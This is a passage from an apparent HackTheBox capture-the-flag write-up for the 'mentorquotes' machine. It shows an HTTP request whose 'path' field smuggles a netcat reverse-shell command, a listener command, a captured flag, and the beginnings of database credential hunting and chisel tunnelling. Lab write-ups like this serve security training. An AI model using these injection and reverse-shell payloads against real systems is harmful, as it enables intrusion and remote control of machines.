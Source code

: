 ```bash
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
accept: application/json
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwiZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Sec-GPC: 1
Accept-Language: en-US,en;q=0.8
Referer: http://api.mentorquotes.htb/docs
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 109

{
	"body": "corvus",
	"path": "/etc/passwd;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.3 4444 >/tmp/f;"
}


```

- Don't forget to start a `nc` listener on the `Host` machine prior to firing off the above request.

```bash
nc -lvnp 4444
```

- You will be in a docker container as `svc`! You can grab the `user.txt` flag with no issues. 

```bash
cd
cat user.txt

ecb1b440a47760320d882d2c38ec2355
```

- After some manual enumeration you return back to the initial folder in which you entered with the `reverse shell`. That being the `/app` directory.
- In the `/app/app` folder you can see file named `db.py`.
- You find the credentials for the `postgres` database at the IP `172.22.0.1`!

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123060108.png)

- You can verify an established connection with `postgresql` running via `netstat`.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123055616.png)

- As `root` we shouldn't have issues writing to any directory. Let's utilize the `/tmp` directory and bring `chisel` over from out host machine to act as a proxy so we can locally access the database from our `Host` machine.
- `chisel` is a TCP/UDP tunneling tool that allows you to forward traffic through a remote host. It can be used to bypass firewall restrictions, or to access resources on a private network from a public network. Chisel is a command line tool and can be used in a variety of ways, such as port forwarding, dynamic port forwarding (SOCKS), and remote port forwarding. It uses the SOCKS5 protocol to tunnel traffic and can encrypt traffic using the AES-256-GCM algorithm.
- Grab the latest release on your host machine.
